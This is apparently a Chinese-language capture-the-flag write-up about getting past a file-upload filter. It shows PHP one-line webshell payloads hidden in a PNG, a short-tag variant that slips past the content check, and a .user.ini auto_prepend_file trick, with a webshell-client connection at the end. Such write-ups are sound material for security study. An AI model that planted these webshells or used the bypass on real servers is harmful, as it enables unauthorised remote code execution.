








上传php，php3，php5，phtml，pht都失败


上传包含一句话木马的png文件

ra1n3.png

```
<?php @eval($_POST[a]);?>
```



校验了文件内容

说明木马中存在敏感信息


利用短标签


```
<?= @eval($_POST[a]);?>
```



成功传入，但是png无法正常解析为php脚本执行


考虑利用.user.ini

```
auto_prepend_file=ra1n3.png
```




上传失败

将后缀名改为png

抓包上传



将png改为ini





成功上传


访问/upload



蚁剑连接